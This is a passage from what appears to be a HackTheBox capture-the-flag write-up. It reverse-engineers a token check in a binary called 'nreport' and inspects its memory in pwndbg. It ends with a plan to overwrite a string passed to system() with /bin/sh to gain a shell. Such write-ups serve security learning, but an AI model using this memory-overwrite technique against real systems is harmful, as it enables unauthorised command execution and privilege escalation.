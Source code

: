 ```bash
a is : A
b is : A
c is : A
d is : A
e is : s
```

So the token is `AAAAAAAAAAAAAs`. It has 14 characters as the last one is `\n` in a total of 15 bytes.
Running again we see the options:
```bash
$ ./nreport
Custom Reporting v1

Enter Your Token: AAAAAAAAAAAAAs
Enter Name: test

Welcome test
1.Create New Message
2.Delete a Message
3.Edit Messages
4.Report All Messages
5.Exit
>
```

Lets run with GDB and debug:
```bash
$ gdb nreport
pwndbg> run
Starting program: /home/caue/htb/overgraph/binary/nreport 
Custom Reporting v1

Enter Your Token: AAAAAAAAAAAAAs
Enter Name: caue

Welcome caue
1.Create New Message
2.Delete a Message
3.Edit Messages
4.Report All Messages
5.Exit
>
(CTRL + C)

pwndbg> x/40s &userinfo1
0x404180 <userinfo1>:   "caue"
...[SNIP]...
0x4041a8 <userinfo1+40>:        "echo \"Last Used On $(date)\" >> /var/log/kreport"
...[SNIP]...
```

Analysing the `userinfo` we see the name we entered and a string that calls system.
Maybe we could put the address `0x4041a8` as our name in the program, then use the `edit()` function to overwrite the `Last Used On $(date)\` to `/bin/sh`.
